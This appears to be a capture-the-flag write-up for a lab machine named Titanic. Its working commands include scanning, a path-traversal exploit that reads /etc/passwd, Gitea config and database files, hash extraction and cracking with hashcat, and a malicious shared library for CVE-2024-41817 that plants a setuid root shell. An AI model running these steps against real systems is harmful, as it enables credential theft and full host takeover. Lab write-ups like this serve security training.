


# Titanic

---

## Scans

```bash
nmap -p- -Pn 10.129.187.150 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.187.150 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.187.150 -v --script vuln -oN nmap_vuln.txt
```


---

## ffuf

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://titanic.htb/FUZZ -s
```


```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://titanic.htb/ -H 'Host: FUZZ.titanic.htb' -fc 301 -s
```


Here we discover

Also there is a form to book and we captured the request in burp and got to see that it provivdes a link to a download endpoint


Then we checked the dev subdomain to find a gitea instance


Then we discovered repos on the gitea

In the first repo we discovered mysql credentials


We also found more internal ports

Then we discovered the flask app and from the tickets email addresses




Note this might be vulnerable to path traversal or lfi as there is no validation checks being done


It is vulnerable!

```bash
curl http://titanic.htb/download?ticket=../../../../../../etc/passwd
```


Note in the docker we see the volume path and after research we get the app.ini for gitea:


```bash
curl 'http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/conf/app.ini'
```


```bash
curl http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db --output gitea.db
```

then with this we dumped the database locally


Then we found password hashes that we can crack


we need to get these for the developer the passwd hash and the passwd hash algo:

```
e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|
```

```
pbkdf2$50000$50
```

and this is the salt:

```
0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34
```

with these we made the hash to a crackable format:

https://github.com/hashcat/hashcat/blob/master/tools/gitea2hashcat.py

```bash
sqlite3 gitea.db 'select salt,passwd from user;' | python3 gitea2hashcat.py
```


We got the developer’s password with hashcat:

```bash
hashcat -m 10900 hash.txt rockyou.txt
```


Then successfully ssh’d into developer

```
ssh developer@10.129.187.150
```

user flag is on the desktop


Then i ran the classic linpeas + pspy combo


But it didnt return anything worthy unfortunately

After additional enumeration we see this weird .sh file



Then based on looking at the script code and the version of magick we identify a cve:

```
CVE-2024-41817
```


This is an exploit lets modify it

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/shell; chmod +s /tmp/shell");
    exit(0);
}
EOF
```

then wait for a min until the cronjob finishes


```
/tmp/shell -p
```

and we are root


root flag is at /root/root.txt
